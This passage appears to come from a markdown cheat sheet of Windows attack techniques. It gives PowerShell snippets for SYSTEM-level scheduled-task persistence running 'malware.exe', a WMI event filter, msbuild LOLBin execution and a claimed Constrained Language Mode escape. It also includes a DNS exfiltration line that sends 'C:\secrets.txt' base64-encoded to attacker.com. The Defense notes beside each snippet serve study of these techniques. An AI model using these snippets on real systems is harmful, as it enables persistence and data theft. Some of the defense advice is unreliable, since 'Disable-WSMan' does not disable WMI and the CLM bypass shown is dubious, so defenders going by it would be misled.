 #### **B. Hidden Scheduled Tasks**  
```powershell  
Register-ScheduledTask -TaskName "LegitTask" -Action (New-ScheduledTaskAction -Execute "malware.exe") -Trigger (New-ScheduledTaskTrigger -AtStartup) -User "NT AUTHORITY\SYSTEM" -Force  
```  
- **Impact**: Persists across reboots as SYSTEM.  
- **Defense**: Audit tasks with `Get-ScheduledTask | Where-Object { $_.TaskPath -notlike "\Microsoft*" }`.  

#### **C. WMI Event Subscription**  
```powershell  
$filterArgs = @{Name='MaliciousFilter'; EventNameSpace='root\CimV2'; Query="SELECT * FROM __InstanceModificationEvent"};  
$filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $filterArgs  
```  
- **Impact**: Triggers payloads on system events (e.g., process creation).  
- **Defense**: Disable WMI via `Disable-WSMan`.  

---

### **4. "Unblockable" Techniques**  
*(Bypass common restrictions)*  

#### **A. DNS Exfiltration**  
```powershell  
# Exfiltrate data via DNS queries  
Resolve-DnsName -Name "$([Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\secrets.txt'))).attacker.com" -Type TXT  
```  
- **Why Unblockable?**: DNS is rarely blocked outright.  
- **Defense**: Monitor DNS for base64 patterns.  

#### **B. Living-off-the-Land (LOLBins)**  
```powershell  
# Use legitimate tools like msbuild.exe to execute code  
msbuild.exe C:\malware.xml  
```  
- **Why Unblockable?**: Uses trusted Microsoft binaries.  
- **Defense**: Restrict execution of LOLBins via AppLocker.  

#### **C. PowerShell Constrained Language Mode Escape**  
```powershell  
# Bypass CLM via .NET reflection  
Add-Type -TypeDefinition @"  
using System;  
public class CLMBypass { public static void Main() { System.Diagnostics.Process.Start("cmd.exe"); } }  
"@  
[CLMBypass]::Main()  
```  
- **Why Unblockable?**: Escapes PowerShell’s security sandbox.  
- **Defense**: Enforce **Constrained Language Mode** via GPO.  

---
